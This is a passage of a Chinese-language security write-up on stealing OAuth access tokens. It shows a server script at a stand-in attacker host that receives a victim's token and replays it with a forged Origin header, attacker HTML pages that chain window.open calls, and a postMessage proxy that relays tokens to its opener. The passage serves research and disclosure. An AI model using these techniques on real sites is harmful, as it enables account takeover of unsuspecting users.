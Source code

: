 ```JavaScript
    });
  }, 2000);
}
```

5.服务器端页面`https://fetch-server-side.attacker.test/?token=xxx`将使用添加的origin头进行api调用，使Chat-API认为我使用它作为一个合法的起源:


```JavaScript

addEventListener('fetch', event => {
  event.respondWith(handleRequest(event.request))
})
async function getDataFromChatApi(token) {
  return await fetch('https://chat-widget.example.com/api', {headers:{Origin: 'https://example.com', 'Chat-Api-Token': token}});
}
function handleRequest(request) {
  const token = request.url.match('token=([^&#]+)')[1] || null;
  return token ? getDataFromChatApi(token) : null;
}

```
6.当受害者点击链接，经过OAuth-dance，并在添加了令牌的错误页面上登陆时，chat-widget会突然弹出，注册当前URL，攻击者将获得受害者的访问令牌。


## 其他关于url泄露的思路

使用任何可用的响应模式使URL泄漏可能是一个潜在的方法，但是我目前还无法在野外找到漏洞


### 域上的一个页面，它将任何postMessage路由到它的打开器


因为所有web_message响应类型都不能验证源的任何路径，所以有效域上的任何URL都可以接收带有令牌的postMessage。如果域中的任何页面上都有某种形式的postMessage-listener代理，它接收发送给它的任何消息并将所有内容发送到它的打开器，那么我可以创建一个双窗口。


攻击者第1页:

```html
<a href=" " onclick="a=window.open('attacker2.html'); return false;">Accept cookies</a >
```

攻击者第2页:

```html
<a href=" " onclick="b=window.open('https://accounts.google.com/oauth/...?', '', 'x'); location.href = 'https://example.com/postmessage-proxy'; return false;">Login to google</a >
```

`https://example.com/postmessage-proxy` 会有一些类似的内容:

```JavaScript

// Proxy all my messages to my opener:
window.onmessage=function(e) { opener.postMessage(e.data, '*'); }
```


[2]: https://openid.net/specs/oauth-v2-multiple-response-types-1_0-09.html#Encoding